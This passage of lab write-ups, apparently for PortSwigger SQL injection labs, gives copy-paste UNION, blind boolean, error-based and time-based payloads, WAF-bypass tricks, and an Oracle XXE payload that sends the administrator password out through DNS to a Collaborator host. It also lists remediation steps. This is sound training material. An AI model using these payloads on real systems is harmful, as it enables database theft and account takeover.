1️⃣ ' added → SQL error observed.  
2️⃣ # comment accepted → 200 OK.  
3️⃣ UNION SELECT NULL,NULL# → correct column count found.  
4️⃣ UNION SELECT @@version,NULL# → DB version reflected in response (proof of successful UNION SQLi).

---

## 🔹 6. Repeater-ready PoC templates

*Find number of columns:*

GET /filter?category=Gifts' UNION SELECT NULL,NULL# HTTP/1.1 Host: <HOST>

*Detect string column:*

GET /filter?category=Gifts' UNION SELECT 'MAGIC',NULL# HTTP/1.1 Host: <HOST>

*Show DB version:*

GET /filter?category=Gifts' UNION SELECT @@version,NULL# HTTP/1.1 Host: <HOST>

---

## 🔹 7. Why # vs -- matters

- -- *must* have a trailing space (e.g., `-- `).  
- # works directly in *MySQL* and raw Repeater requests.  
⚠️ Note: Browsers treat # as a fragment — always use *Repeater*, not the browser.

---

## 🔹 8. Troubleshooting & common issues

- Browser removes/ignores # → use *Repeater*.  
- 500 error → adjust column count.  
- No visible result → check reflected column or HTML source.  
- WAF blocks UNION → try obfuscation:
  - UN/**/ION SELECT
  - UNI%0AON
  - CHAR() / CONCAT() payloads

---

## 🔹 9. Detection (what defenders see)

- SQL keywords (UNION, SELECT, version()) in URLs.
- Response-length anomalies or timing shifts.
- Bursts of test payloads with ', --, or #.

---

## 🔹 10. Remediation checklist

✅ *Parameterized queries* only (no string concatenation).  
✅ *Least-privilege* DB user (no admin perms).  
✅ *No verbose DB errors* to clients.  
✅ *Input validation* and whitelisting.  
✅ *Rate-limit* & log suspicious requests.  
✅ *WAF* for additional filtering/logging.

---

## 🔹 11. Pentest quick checklist

1️⃣ Capture request → Repeater  
2️⃣ Test ' → confirm quote  
3️⃣ Identify comment (# / --)  
4️⃣ Find number of columns → NULL sequence  
5️⃣ Identify reflected column with 'MARK'  
6️⃣ Inject @@version / version()  
7️⃣ (If possible) extract user data with UNION SELECT  
8️⃣ Save PoC requests + raw responses  
9️⃣ Recommend remediation steps

---

## 🔹 12. Pocket memory cue

> ' → comment → count columns → mark → version() → dump data.

---

## 🔹 Out-of-the-box / Advanced snippets 

*Comment syntaxes*

--%20     # (MySQL only) /.../   (universal)

*Column discovery*

UNION SELECT NULL# UNION SELECT NULL,NULL# UNION SELECT NULL,NULL,NULL#

*DB version*

MySQL:    @@version Postgres: version() MSSQL:    @@VERSION SQLite:   sqlite_version()

*Concatenation (if 1 string column)*

MySQL/Postgres: CONCAT(username,':',password) MSSQL: username + ':' + password Oracle: username || ':' || password

---

# SQL Injection Lab-8 — UNION-Based Enumeration 

---

## 🔹 One-line summary

UNION-based SQL injection allows an attacker to append their own SELECT queries to the backend SQL statement, enabling full enumeration of schemas, tables, and columns — eventually revealing sensitive data such as usernames and passwords.

---

## 🔹 What is this topic? (short)

This technique abuses the UNION SELECT operator.
By matching the correct number of columns and finding a reflected string column, the attacker can:

confirm comment syntax (-- )
count columns
check string reflection
enumerate schemas
enumerate tables (in public)
extract column names (e.g., username + password)

---

## 🔹 Why this matters (real-world risk)

Credential exposure: attackers can dump admin usernames/passwords.
Data mapping: complete DB structures are revealed (schemas/tables/columns).
Privilege escalation: leaked credentials → admin panel → full compromise.
Persistence: knowing schema/table layout helps in advanced exploitation (RCE, file writes, logic bypass).

---

## 🔹 High-value injection targets

Category filters: /filter?category=...
Search parameters: /search?q=...
Product IDs: /product?id=...
Sort/pagination parameters
JSON API fields that trigger SQL queries
Anything reflecting DB-driven content (tables, grids, listings)

---

## 🔹 Quick concept checklist

' → does it break?
--  → does comment syntax work?
UNION SELECT NULL... → column count
Inject 'TOK' → find reflected string column

Enumerate:
information_schema.schemata
information_schema.tables
information_schema.columns

Dump data via UNION once structure identified

---

## 🔹 Lab walkthrough — exact steps 

*1. Capture baseline request*

Turn Burp Proxy ON → click a category/filter.
Capture /filter?category=Gifts (or similar).
Send it to Repeater.

---

*2. Test comment syntax*

Send:

Gifts'--
OR
Gifts' --

A valid comment style stops the SQL parser from reading the rest of the query.
PostgreSQL requires:

--␣   (dash dash + space)

---

*3. Count columns (UNION + NULLs)*

Try sequentially:

Gifts' UNION SELECT NULL--

If error → try:

Gifts' UNION SELECT NULL,NULL-- 
Gifts' UNION SELECT NULL,NULL,NULL--

Stop when a normal/altered page appears.
That number of NULLs = total column count.

---

*4. Find the reflected string column*

Inject markers:

Gifts' UNION SELECT 'TOK',NULL-- 
Gifts' UNION SELECT NULL,'TOK'--

The column where 'TOK' appears in response is the string-compatible reflected column.

---

*5. Enumerate schemas*

Using the reflected column:

Gifts' UNION SELECT schema_name,NULL 
FROM information_schema.schemata--

Look for:

public

This is usually the target schema.

---

*6. Enumerate tables (schema = public)*

Gifts' UNION SELECT table_name,NULL
FROM information_schema.tables
WHERE table_schema='public'--

Find table starting with:

user…
(e.g., users_abcd123)

---

*7. Enumerate columns (target table)*

Gifts' UNION SELECT column_name,NULL
FROM information_schema.columns
WHERE table_name='users_abcd123'--

Look for:

username
password

---

*8. Dump credentials (optional final step)*

Gifts' UNION SELECT username,password
FROM users_abcd123--

Use the returned admin creds to log in.

---

## 🧾 Proof / Evidence

*1️⃣ Screenshot — Applying -- comment*  
  
Description: Repeater request showing '--  payload confirming valid comment syntax (PostgreSQL requires a trailing space).

---

*2️⃣ Screenshot — NULL column count test*  
  
Description: Shows the point where UNION SELECT NULL,NULL-- returns a normal page, confirming column count = 2.

---

*3️⃣ Screenshot — String reflection test*  
  
Description: Response shows injected marker 'TOK', identifying the reflected string column.

---

*4️⃣ Screenshot — Schema enumeration* 
  
Description: Response lists schemas from information_schema.schemata, including the target public.

---

*5️⃣ Screenshot — Table enumeration under public*  
  
Description: Screenshot showing table names in schema public, including one starting with user….

---

*6️⃣ Screenshot — Column name enumeration* 
  
Description: Shows username and password columns returned from information_schema.columns.

---

*Screenshot-7 (Credentials Enumeration)*

Description: Shows password of administartor being fetched.


---

## 🔹 PoC / Repeater-ready example

Correct column count (example: 2 columns)

GET /filter?category=Gifts' UNION SELECT NULL,NULL-- HTTP/1.1  
Host: <HOST>

Find string column

GET /filter?category=Gifts' UNION SELECT 'TOK',NULL-- HTTP/1.1  
Host: <HOST>

Enumerate tables in public

GET /filter?category=Gifts' UNION SELECT table_name,NULL  
FROM information_schema.tables  
WHERE table_schema='public'-- HTTP/1.1  
Host: <HOST>

Enumerate column names

GET /filter?category=Gifts' UNION SELECT column_name,NULL  
FROM information_schema.columns  
WHERE table_name='users_abcd123'-- HTTP/1.1  
Host: <HOST>

---

## 🔹 Common payloads & quick cheats

Comment remainder:
'--

Force true:
' OR 1=1--

Column count:
UNION SELECT NULL,NULL,...

Marker test:
UNION SELECT 'MKR',NULL--

Table enumeration (PostgreSQL):
FROM information_schema.tables

Column enumeration:
FROM information_schema.columns

---

## 🔹 Troubleshooting

Syntax errors during UNION → column count mismatch.
Marker not visible → check HTML source, comments, attributes.
DB error: type mismatch → use NULL for non-reflected columns.
No tables returned → wrong schema; verify with schemata.
WAF issues → try UN/**/ION or case variations (UnIoN SeLeCt).

---

## 🔹 Fixes / remediation

Always use parameterized queries.
Disable verbose SQL errors.
Whitelist valid input values.
Limit DB privileges (no access to entire information_schema).
Log and alert unusual patterns (UNION, SLEEP, large metadata queries).

---

## 🔹 Pentest checklist

1. ' test
2. Comment test (-- )
3. Column count with NULLs
4. Locate reflected string column
5. Enumerate schemas
6. Enumerate public tables
7. Enumerate columns
8. Dump credentials
9. Provide fixes + screenshots

---

## 🔹 Quick memory cue

Quote → Comment → NULLs → TOK → Schemas → Tables → Columns → Creds

---

# 🔐Lab-9 Blind SQL Injection (Boolean-Based)

---

## 🔹 One-line summary
Blind SQLi where responses change based on TRUE/FALSE conditions, allowing extraction of admin password.

---

## 🔹 What is this topic? (short)
A vulnerability where SQL queries execute but the results are not shown directly.  
We extract data using boolean behavior such as page content changes.

---

## 🔹 Why this matters (real-world risk)
Blind SQLi leads to:
- Full DB extraction  
- Credential theft  
- Account takeover  
- Pivoting inside networks  
- RCE (in some DB engines)

---

## 🔹 High-value injection targets
- Cookies (TrackingId, session, JWT claims)
- Headers (X-Forwarded-For, User-Agent, Referer)
- GET params (id, category, view)
- POST params (login forms, search fields)
- JSON body
- GraphQL arguments

---

## 🔹 Quick concept checklist
- TRUE/FALSE based behavioral difference  
- Extract password length  
- Extract password char-by-char  
- Use SUBSTRING(), LENGTH(), ASCII(), etc.  
- Grep “Welcome back” as TRUE marker  

---

## 🔹 Lab walkthrough — exact steps (copy-paste ready)

SELECT * FROM tracking WHERE id = 'TrackingIdCookie'

*Step 1 — Confirm injection (boolean test)*  
- TRUE: ' AND '1'='1 → page shows “Welcome back”
- TrackingId=xyz' AND '1'='1
  
- FALSE: ' AND '1'='2 → message disappears
- TrackingId=xyz' AND '1'='2  

*Step 2 — Check if *users table exists**    
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

*Step 3 — Check if administrator user exists*  
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a 

*Step 4 — Determine password length*  
TrackingId=xyz' AND (SELECT 'a' FROM users 
WHERE username='administrator' AND LENGTH(password)>N)='a

*Step 5 — Extract password one character at a time*  
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) 
FROM users WHERE username='administrator')='§a§ 

*Step 6 — Automate with Burp Intruder*
 SUBSTRING(password,2,1)
 SUBSTRING(password,3,1)
- Position only around the guessed character  
- Payload list: a-z, 0-9  
- Grep Match: Welcome back  
- Extract all chars 1–20  

---

## 🧾 Proof / Evidence  (Screenshots)

  
*Description:* TRUE/FALSE behavior showing SQL injection confirmed.

  
*Description:* Used payload to confirm the users table exists.

 
*Description:* Verified the administrator user is present.

  
*Description:* Enumerated password length using boolean responses.


*Description:* Identified each password character using Intruder.

  
*Description:* Full admin password successfully extracted.

---

## 🔹 Common payloads & quick cheats
- ' AND '1'='1  
- ' AND LENGTH(password)>10  
- ' AND SUBSTRING(password,1,1)='a  
- ' AND ASCII(SUBSTRING(password,1,1))>77  

---

## 🔹 Troubleshooting
- No difference? → use time-based: SLEEP(5)  
- Quotes break → try " "  
- WAF blocks SUBSTRING → use MID(), LEFT()  
- No content difference → track response length  

---

## 🔹 Fixes / remediation
- Use parameterized queries  
- Strict input validation  
- No dynamic SQL  
- Least privilege for DB accounts  
- Disable detailed error messages  

---

## 🔹 Pentest checklist
- Identify injection point  
- Confirm boolean behavior  
- Enumerate (table → user → column)  
- Extract length  
- Extract password  
- Verify login  
- Report impact + remediation  

---

## 🔹 Quick memory cue
TRUE → “Welcome back”  
FALSE → Missing “Welcome back”  
Extract → Length → Characters → Login  

---

# Lab -10 : Blind Error-Based SQL Injection — Extracting Admin Credentials

---

## 🔹 One-line summary
Blind SQLi using Oracle’s conditional error mechanic (TO_CHAR(1/0)) to extract the administrator password from a tracking cookie.

---

## 🔹 What is this topic? (short)
Blind SQL Injection where:
- Output is *not returned*
- Behavior only changes when an *error is triggered*
- Oracle lets us trigger controlled errors using:
  
  TO_CHAR(1/0)
  
We use conditional checks to leak the admin password.

---

## 🔹 Why this matters (real-world risk)
- Full credential extraction  
- Account takeover (admin)  
- Database disclosure  
- Pivoting inside corporate networks  
- Oracle apps often hide text errors → only subtle behavior differences

---

## 🔹 High-value injection targets
- Cookies: TrackingId, Session, visitorId
- Custom headers: X-User, X-Forwarded-For, Device-ID
- Hidden GET/POST params: id, category, product
- Login/reset-token fields
- Sorting/search fields

---

## 🔹 Quick concept checklist
- TO_CHAR(1/0) throws an error  
- CASE WHEN <cond> THEN TO_CHAR(1/0)  
- Error = TRUE  
- No error = FALSE  
- Oracle requires:  
  
  FROM dual
  

---

## 🔹 Lab walkthrough — exact steps (copy-paste ready)

### *1️⃣ Confirm SQL injection works*

TrackingId=xyz'

➡️ Application throws an Oracle error → injection confirmed.


TrackingId=xyz''

➡️ Error disappears → confirms you are breaking/repairing SQL.

---

### *2️⃣ Confirm database is Oracle*
Test without dual:

xyz'||(SELECT '')||'

➡️ Error.

Test with dual:

xyz'||(SELECT '' FROM dual)||'

➡️ No error → Oracle confirmed.

---

### *3️⃣ Confirm your injected SQL is executed*
Call a non-existing table:

xyz'||(SELECT '' FROM badtable)||'

➡️ Error → your SELECT is running server-side.

---

### *4️⃣ Check if users table exists*

xyz'||(SELECT '' FROM users WHERE ROWNUM=1)||'

➡️ No error → table exists.

---

### *5️⃣ Use Oracle conditional errors (core attack)*
*TRUE → error*

xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'


*FALSE → no error*

xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'


---

### *6️⃣ Check if the administrator user exists*

xyz'||(SELECT CASE WHEN (username='administrator') 
THEN TO_CHAR(1/0) ELSE '' END FROM users)||'

➡️ Error → admin exists.

---

### *7️⃣ Determine password length*
Loop N = 1 → 30:

xyz'||(SELECT CASE WHEN LENGTH(password)>N 
THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator')||'

When error stops → length found.  
(Lab: *20 characters*)

---

### *8️⃣ Extract password character-by-character*
Template:

xyz'||(SELECT CASE WHEN SUBSTR(password,POS,1)='a' 
THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator')||'


Replace 'a' with payload list:  
a–z, 0–9

Replace POS from 1 → 20.

Error = correct character.

Repeat until full admin password is recovered.

---

### *9️⃣ Log in with extracted admin credentials*
Use /login → enter extracted password.  
✔ Lab solved.

---

## 🧾 Proof / Evidence (Screenshot)

  
*Description:* Final extracted administrator password displayed in Repeater after completing the character-by-character Oracle error-based SQL injection.

---

## 🔹 PoC / Repeater-ready example

Cookie: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' 
THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator')||';


---

## 🔹 Common payloads & quick cheats
*Oracle conditional error payload:*

CASE WHEN (<cond>) THEN TO_CHAR(1/0) ELSE '' END


*Check admin existence:*

username='administrator'


*Password length brute:*

LENGTH(password)>N


*Character extraction:*

SUBSTR(password,P,1)='x'


---

## 🔹 Troubleshooting
- *Error always visible* → unbalanced quotes  
- *No error at all* → missing FROM dual  
- *Every request errors* → missing ROWNUM=1  
- *No valid Intruder matches* → wrong grep (use 500)  
- *WAF blocks keywords* → try case flipping / comment bypass

---

## 🔹 Fixes / remediation
- Use parameterized queries  
- Validate all cookie/header input  
- Remove detailed SQL errors  
- Use strict allowlists  
- Hash & HMAC-protect cookies  
- Apply least-privilege DB users

---

## 🔹 Pentest checklist
1. Break SQL with '  
2. Confirm Oracle with FROM dual  
3. Test conditional errors  
4. Check users table  
5. Check admin user  
6. Get password length  
7. Extract characters with Intruder  
8. Log in  
9. Screenshot → report

---

## 🔹 Quick memory cue

' → dual → CASE WHEN → 1/0 error → length → chars → admin pw.

---

# Lab-11 Blind Error-Based SQL Injection — TrackingId Cookie (PortSwigger / lab-style)

---

## 🔹 One-line summary
Blind error-based SQL injection inside the TrackingId cookie leaks the administrator username and password via SQL CAST() errors.

---

## 🔹 What is this topic? (short)
This lab demonstrates SQL injection inside a cookie.  
The backend inserts TrackingId directly into a SQL query.  
The page does not display query results, but *database error messages leak internal data* such as usernames and passwords.

---

## 🔹 Why this matters (real-world risk)
- Attackers can leak *usernames, **password hashes, **admin credentials*  
- Analytics/tracking cookies are often trusted → directly concatenated into SQL  
- A single error-based leak can escalate to *full account takeover*  
- Common in CRMs, analytics scripts, legacy PHP/Java sites, and internal monitoring tools

---

## 🔹 High-value injection points
- Cookies: TrackingId, VisitorId, SessionToken, UID, CampaignId
- Endpoints that process these cookies:  
  /, /analytics, /track, /logs, /session/track, /monitor/events, /reporting

---

## 🔹 Quick concept checklist
- Test with ' → confirm SQL error  
- Use SQL comment -- to truncate rest  
- Use CAST() to force integer conversion errors  
- Compare *error* vs *no-error* to leak data  
- Remove original cookie value when query is too long  
- Use LIMIT 1 to force single-row extraction

---

## 🔹 Lab walkthrough — exact steps (copy-paste ready)

1. *Capture homepage request*  
   Get the request containing the TrackingId=<value> cookie in Burp → Repeater.

2. *Test injection*  
   Add a quote:  
   
   TrackingId=xyz'
   
   Error appears → SQLi confirmed.

3. *Stabilize query using SQL comment*  
   
   TrackingId=xyz'--
   
   No error → comment removed broken remainder.

4. *CAST() boolean test*  
   
   TrackingId=xyz' AND CAST((SELECT 1) AS int)--
   
   Error appears → DB executed our expression.

---

5. *Fix boolean to avoid CAST mismatch*  
   
   TrackingId=xyz' AND 1=CAST((SELECT 1) AS int)--
   
   No error → valid boolean injected.

6. *Try to leak username*  
   
   TrackingId=xyz' AND 1=CAST((SELECT username FROM users) AS int)--
   
   Error changes → query executed, but too long or multi-row.

7. *Shorten cookie by removing original value*  
   
   TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
   

---

8. *Limit to one row*  
   
   TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
   
   Error message reveals:  
   *administrator*

9. *Leak password*  
   
   TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

---

10. *Login*  
   Use extracted admin password → log in → lab solved.

---

## 🔹 Evidence
1. *Screenshot — CAST no-error test*
### 📸 Screenshot 1 — CAST() valid boolean (no error)


2. *Screenshot — erased TrackingId for username extraction*
### 📸 Screenshot 2 — Erased TrackingId (query no longer auto-skipped)
 

3. *Screenshot — password leak via CAST()*
### 📸 Screenshot 3 — Admin password leak via CAST()  


---

## 🔹 PoC payloads (ready to reuse)


'--
' AND CAST((SELECT 1) AS int)--
' AND 1=CAST((SELECT 1) AS int)--
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--


---

## 🔹 Troubleshooting
- If no error → DB suppressing messages; try alternative conversion: CAST(... AS bigint)  
- If multiple rows → use LIMIT 1 OFFSET n  
- If cookie too long → erase original value  
- If WAF blocks CAST → try CONVERT() or arithmetic errors (1/(SELECT ...))

---

## 🔹 Fixes / remediation
- Use *prepared statements*  
- Never interpolate cookie data into SQL  
- Disable detailed SQL errors in production  
- Validate cookie format (UUID)  
- Apply least-privilege DB permissions

---

# Lab-12 Blind Time-Based SQL Injection — TrackingId Cookie (PortSwigger / lab-style)

---

## 🔹 One-line summary
Blind time-based SQL injection inside the `TrackingId` cookie leaks the administrator password through controlled database delays.

---

## 🔹 What is this topic? (short)
Time-based blind SQLi occurs when:
- The app shows **no errors**
- Does **not reflect output**
- Returns **same response always**

But attackers can force the database to **sleep** (delay) when a condition is TRUE.

By observing response time, we extract:
- user existence
- password length
- each character of password

---

## 🔹 Why this matters (real-world risk)
- Works even when errors/output are hidden  
- Bypasses WAF filters and validation  
- Used widely in pentests & bug bounty  
- Can extract full DB contents using only page timing  
- Leads to full admin takeover

---

## 🔹 High-value injection points
Tracking and analytics cookies:
- `TrackingId`
- `sessionid`
- `auth_token`
- `VisitorId`

Endpoints:
- `/`
- `/analytics`
- `/track`
- `/monitor`
- `/api/*`
- login backends

---

## 🔹 Quick concept checklist
- Use `pg_sleep()` (PostgreSQL)
- TRUE → delayed response  
- FALSE → instant response  
- Extract:
  - user existence  
  - password length  
  - each character using SUBSTRING  

---

## 🔹 Lab walkthrough — exact steps (copy-paste ready)

### Step 1 — Test timing-based injection
Send timing payload:
TrackingId=x'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

Delay ≈ 10s → TRUE branch executed.

Test FALSE:
TrackingId=x'; SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--

Instant response → FALSE confirmed.

---

### Step 2 — Check if administrator user exists
TrackingId=x'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--

10-second delay → `administrator` exists.

---

### Step 3 — Enumerate password length

Test lengths until delay stops:
TrackingId=x'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--

Increment `>2`, `>3`, `>4`, … → final result:  
**Password length = 20**

---

### Step 4 — Extract password characters (intruder)

Character-by-character extraction:
TrackingId=x'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--

Mark attack position with Intruder markers:
'=§a§'

Payload set:  
`a–z`, `0–9`

Use 1 thread → time-based precision.

10-second response → correct character found.

Repeat for positions 1 → 20:
SUBSTRING(password,2,1) SUBSTRING(password,3,1) ... SUBSTRING(password,20,1)

### Step 5 - Admininistrator Login

EXtract password char by char to fetch admin password.Go to my account and enter credentials and boom lab is solved.

---

## 🧾 Evidence (Screenshots)

1️⃣ **Screenshot — TRUE timing delay payload**  


2️⃣ **Screenshot — administrator user existence confirmed**  


3️⃣ **Screenshot — password length extraction**  


4️⃣ **Screenshot — Intruder extracting characters one-by-one**  


5️⃣ **Screenshot — Time-delay during brute-force extraction** 


---

## 🔹 Troubleshooting
- No timing difference → response delay threshold too small (increase to 8–12s)
- WAF blocks `pg_sleep()` → try:
  - `SLEEP()`
  - `benchmark(50000000,md5(1))`
- If multiple DB rows cause noise → add `LIMIT 1`
- If cookie too long → remove original value

---

## 🔹 Fixes / remediation
- Use prepared SQL statements  
- Never insert cookie values directly  
- Normalize tracking IDs (UUID only)  
- Block dangerous functions (`pg_sleep`, `SLEEP`, `WAITFOR`)  
- Add uniform response time (mitigates timing leaks)

---

# Lab-13 📝 **Lab Write-Up — OAST-Based Blind SQL Injection (DNS Interaction via XXE)**

---

## 📌 1-Line Summary

This attack uses **blind SQL injection + XXE** to force the backend database to perform a **DNS lookup** to a Burp Collaborator domain, proving the SQL injection exists even without visible errors or delays.

---

## ❓ What Is This Topic? (OAST / Out-of-Band SQL Injection)

**OAST (Out-of-Band Application Security Testing)** is used when normal SQL injection techniques fail because:

- no errors  
- no output  
- no delay  
- no Boolean behavior  

In this method:

1. You send an SQL payload.
2. The database triggers a DNS lookup to **your server**.
3. That DNS entry = **proof of SQL injection**.

This works because DNS traffic is rarely blocked in production, allowing attackers to also **exfiltrate sensitive data over DNS**.

---

## ⚠️ Why This Matters (Real-World Impact)

Modern production apps often:

- suppress SQL errors  
- execute queries asynchronously  
- hide DB output  
- block time delays  
- sanitize reflected responses  

➡️ Making **Boolean, Error-Based, and Time-Based SQLi useless**.

But OAST SQLi bypasses everything.

If an attacker can force DNS lookups from the DB:

- ✔️ SQLi is confirmed even when app stays silent  
- ✔️ Data (passwords, keys, tokens) can be encoded inside DNS requests  
- ✔️ WAF & logging are bypassed  
- ✔️ Entire DB rows can be extracted  
- ✔️ Internal servers can be reached  

This is considered **critical severity**.

---

## 🎯 High-Value Endpoints for OAST SQLi

OAST is extremely effective in:

- Cookies (TrackingId, SessionId)  
- Headers (User-Agent, X-Forwarded-For, Referer)  
- Analytics & tracking endpoints  
- Background task processors  
- Logging systems  
- PDF / XML / report generators  
- Email rendering engines  
- ORM debugging modes  
- Admin exports & scheduled SQL jobs  

Any SQL query executed *outside* the request-response cycle is ideal for OAST exploitation.

---

## 🧪 Lab Walkthrough

### **Step 1 — Intercept Request Containing TrackingId**
- Open Burp → Proxy → Intercept **ON**
- Browse homepage
- Capture request with:
Cookie: TrackingId=xyz
---

### **Step 2 — Replace TrackingId with XXE-SQLi OAST Payload**

The official Oracle DNS-trigger payload:
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://COLLABORATOR-DOMAIN/"> %remote;]>'),'/l') FROM dual--

This uses:

- **xmltype()**  
- **external entity loading**  
- **DNS resolution**  

to force the backend to perform an external lookup.

---

### **Step 3 — Insert Burp Collaborator Payload**

In Burp:

`Right-click → Insert Collaborator Payload`

Example:
abcd123xyz.burpcollaborator.net

Final injected cookie:
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://abcd123xyz.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--
---

### **Step 4 — Send Request → Poll Collaborator for DNS Lookups**

- Go to **Burp → Collaborator → Poll**
- If any DNS interaction appears → SQLi confirmed → Lab solved.

---

## 🖼️ Evidence (Screenshots)

2️⃣ **Screenshot — Injected TrackingId payload in Burp**  


3️⃣ **Screenshot — DNS interaction received in Collaborator**  


---

## 🔧 Troubleshooting

If **no DNS interaction** appears:

- payload may be incorrectly URL-encoded  
- Collaborator domain not inserted properly  
- WAF filtering the query  
- XML parsing disabled  
- app using different DB engine → try DB-specific payload  

If XML parser error appears:

- remove EXTRACTVALUE() for MySQL  
- use LOAD_FILE(), dnslookup(), or MSSQL xp_dirtree  

If completely silent:

- app may be using background workers  
- use **direct DNS functions** (Oracle UTL_INADDR.GET_HOST_ADDRESS, MySQL LOAD_FILE, MSSQL xp_dirtree)

---

## 🛡️ Remediation (Fix)

**1. Parameterized SQL Queries**  
Use prepared statements on all database interactions.

**2. Disable Dangerous DB Features**  
- disable external entity resolution  
- restrict Oracle packages: UTL_HTTP, UTL_INADDR  
- block MSSQL xp_* functions  

**3. Egress Control**  
Block outbound DNS/HTTP except internal resolvers.

**4. WAF Filtering**  
Detect SQL + XXE hybrid payloads.

---

# Lab-14 Blind Asynchronous SQL Injection + XXE OAST Password Exfiltration (PortSwigger Lab)

---

## 🔹 One-line summary
Blind asynchronous SQL injection combined with XXE allows exfiltration of the administrator password via an out-of-band DNS/HTTP interaction (Burp Collaborator).

---

## 🔹 What is this topic? (short)
This lab demonstrates an SQL injection that:
- executes **asynchronously**
- produces **no visible errors**
- produces **no timing differences**
- produces **no boolean response changes**

Because nothing appears in the HTTP response, we use **OAST (Out-of-Band Application Security Testing)**.

The injection triggers Oracle’s XML parser to load an external entity whose URL contains the extracted password.  
The database performs a DNS/HTTP lookup to the Collaborator server → leaking the password.

---

## 🔹 Why this matters (real-world risk)
Real applications frequently:
- run SQL in background workers
- suppress SQL errors
- block timing attacks
- hide query output

Attackers can still exfiltrate:
- passwords  
- API keys  
- auth tokens  
- secret keys  
- entire DB rows  

All through DNS or HTTP callbacks.

This bypasses WAFs, error suppression, async execution, and timing protection.

---

## 🔹 High-value injection points
- Tracking cookies  
- Analytics parameters  
- Logging systems  
- Background job triggers  
- Reporting endpoints  
- Email rendering paths  
- Scheduled SQL batch procedures  

These are usually unmonitored and perfect for OAST SQLi.

---

## 🔹 Quick concept checklist
- Async SQLi = no in-response signals  
- Use XML + SQL to load external entity  
- Append sensitive value into DNS subdomain  
- Collaborator receives DNS/HTTP → proof + data  
- Oracle functions: `xmltype()`, `EXTRACTVALUE()`  

---

## 🔹 Lab walkthrough — exact steps (copy-paste ready)

1. **Intercept a request containing the `TrackingId` cookie**  
   In Burp → Proxy → Intercept → send request to Repeater.

2. **Replace TrackingId value with the OAST-XXE SQLi payload**  
   Payload format:
   TrackingId=x'+UNION+SELECT+EXTRACTVALUE( xmltype( '<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'
|| (SELECT password FROM users WHERE username=''administrator'')
|| '.BURP-COLLABORATOR-SUBDOMAIN/"> %remote; ]>' ), '/l') FROM dual--

3. **Insert Collaborator payload**  
In Burp:  
Right-click → Insert Collaborator payload → replaces `BURP-COLLABORATOR-SUBDOMAIN`.

4. **Send the request**  
The backend SQL runs asynchronously. No visible change in HTTP response.

5. **Poll Collaborator**  
Burp → Collaborator → Poll  
DNS/HTTP interaction appears.  
The password is inside the subdomain of the incoming request.

6. **Log in using the leaked credentials**  
Username: `administrator`  
Password: *(value received in Collaborator)*  

Lab solved.

---

## 🧾 Evidence (Screenshots)

1️⃣ **Screenshot — Collaborator shows DNS/HTTP hit containing admin password**  


---

## 🔹 PoC payload (final working injection)
x'+UNION+SELECT+EXTRACTVALUE( xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'
|| (SELECT password FROM users WHERE username=''administrator'')
|| '.COLLAB/"> %remote; ]>'), '/l') FROM dual--

(Replace `COLLAB` with your actual Collaborator payload.)

---

## 🔹 Troubleshooting
- No DNS lookup → Collaborator payload inserted incorrectly  
- XML errors → non-Oracle DB, try DB-specific XXE approach  
- No interaction → query filtered or sanitized; try double-encoding  
- WAF blocks UNION → try JOIN or SELECT FROM DUAL only  
- Slow poll → async jobs may take 2–10 seconds  

---

## 🔹 Fixes / remediation
- Use prepared statements  
- Disable XML external entity resolution  
- Block outbound DNS except internal resolvers  
- Restrict Oracle functions (`xmltype`, `EXTRACTVALUE`)  
- Add WAF rules detecting XXE-in-SQL patterns  

---

# Lab-15 XML SQL Injection + WAF Bypass via Encoded UNION (PortSwigger Lab)

---

## 🔹 One-line summary
WAF-evaded SQL injection inside XML input using encoded UNION SELECT to extract the administrator’s password.

---

## 🔹 What is this topic? (short)
This lab demonstrates that SQL injection can occur inside XML-based input when the backend embeds XML fields directly into SQL queries without sanitization.

To block attackers, a WAF filters obvious SQL keywords (UNION, SELECT, etc.).  
We bypass this by sending the same keywords using *XML-encoded characters*, allowing us to execute a UNION SELECT injection even when the WAF is enabled.

Only one column is returned by the stock query, so we concatenate:  
username || '~' || password  
to extract both values in a single output column.

---

## 🔹 Why this matters (real-world risk)
Modern APIs often use XML or JSON, but the backend still performs unsafe SQL concatenation.

Attackers can:
- bypass WAFs using encoding techniques  
- inject SQL through API bodies instead of URL params  
- exfiltrate sensitive data through legitimate API responses  
- compromise admin accounts  
- fully bypass keyword-based filtering  

This vulnerability appears frequently in:
- SOAP services  
- XML-based inventory systems  
- enterprise ERP APIs  
- mobile app API gateways  
- IoT/Smart device APIs  

Encoding-based WAF evasion is extremely common in real-world attacks.

---

## 🔹 High-value injection points
Common XML injection locations include:

- <storeId>  
- <productId>  
- <quantity>  
- <location>  
